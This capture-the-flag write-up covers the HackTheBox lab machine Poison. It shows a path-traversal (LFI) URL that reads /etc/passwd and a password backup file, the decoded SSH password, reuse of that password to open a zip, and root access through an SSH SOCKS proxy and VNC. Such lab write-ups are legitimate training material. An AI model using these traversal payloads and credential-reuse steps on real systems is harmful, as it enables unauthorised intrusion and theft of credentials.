# Poison -- HackTheBox (write-up)

**Difficulty:** Medium
**Box:** Poison (HackTheBox)
**Author:** dsec
**Date:** 2025-08-09

---

## TL;DR

### LFI on browse.php led to a base64-encoded password file. SSH'd in as charix. Privesc via VNC running as root -- used proxychains + SSH dynamic port forwarding with the VNC password file.
---

## Target info

- Host: `10.129.1.254`
- OS: FreeBSD
- Services discovered: `22/tcp (ssh)`, `80/tcp (http)`

---

## Enumeration



## Exploitation

LFI via browse.php:

```
http://10.129.1.254/browse.php?file=../../../../../../../etc/passwd
```



- Found user `charix`



Used phpinfo to find the web root:





- `/usr/local/www/apache24/data`

Read the password backup file via LFI:

```
http://10.129.1.254/browse.php?file=../../../../../../../usr/local/www/apache24/data/pwdbackup.txt
```



Used CyberChef -- kept adding "from Base64" decodes:

- Password: `Charix!2#4%6&8(0`

```bash
ssh charix@10.129.1.254
```



## Privilege escalation

Transferred `secret.zip` from target:

```bash
scp charix@10.129.1.254:/home/charix/secret.zip .
```

Password reuse to unzip:

```bash
7z e -p'Charix!2#4%6&8(0' secret.zip
```



- Contains a VNC password file

Checked for VNC:

```bash
netstat -an -p tcp
```



- Ports 5801 and 5901 are VNC

```bash
ps -auwwx | grep vnc
```



- VNC is running as root

**SSH port forwarding didn't work**, so used proxychains instead:

Added `socks4 127.0.0.1 8081` to `/etc/proxychains4.conf`:



```bash
ssh charix@10.129.1.254 -D 8081
```

- `-D` sets up dynamic application-level port forwarding (SOCKS proxy on port 8081)

```bash
proxychains vncviewer 127.0.0.1:5901 -passwd secret
```



---

## Lessons & takeaways

- Multiple rounds of base64 decoding -- keep going until you get plaintext
- FreeBSD uses different flags (`netstat -an -p tcp`, `ps -auwwx`)
- When SSH port forwarding fails, use proxychains with SSH dynamic forwarding (`-D`)
- VNC password files can be reused with `vncviewer -passwd`
---
